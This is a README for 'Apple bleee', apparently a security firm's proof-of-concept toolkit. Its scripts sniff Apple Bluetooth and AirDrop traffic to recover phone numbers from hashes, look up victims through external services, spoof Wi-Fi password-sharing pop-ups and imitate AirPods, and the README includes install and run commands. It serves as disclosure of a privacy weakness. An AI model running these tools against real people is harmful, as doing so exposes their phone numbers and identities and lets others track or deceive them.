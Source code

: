 # Apple bleee

<p align="center">
  <img src="https://github.com/hexway/apple_bleee/blob/master/img/logo.jpg"  height="350">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and WiFi card supporting active monitor mode with frame injection for communication using `AWDL` (AirDrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_bleee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
# For the bluetooth scripts, you need to do 
  ```sudo apt-get install python3-bluez```
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py)

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.

![dev_status](img/dev_status.png)

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HLR request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a WiFi password request, you have to prepare the hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter

```bash
sudo python3 ble_read_state.py -с
```

**Video demo (click):**

[![airdrop_demo](img/status_gif.gif)](https://www.youtube.com/watch?v=Bi602yAIBAw)

### Script: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py)

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple AirDrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py
```

**Video demo (click):**

[![airdrop_demo](img/airdrop_gif.gif)](https://www.youtube.com/watch?v=mREIeH_s3z8)

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py)

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

**Video demo (click):**

[![share_wifi_demo](img/share_wifi_pwd2_gif.gif)](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

### Script: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py)

This script mimics AirPods by sending `BLE` messages

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```

**Video demo (click):**

[![airdrop_demo](img/airpods_gif.gif)](https://www.youtube.com/watch?v=HoSuLUtrkXo)

### Script: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/)

You can use this script to create pre-calculated table with mobile phone numbers hashes<br>
Please find details [here](/hash2phone)

## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway)

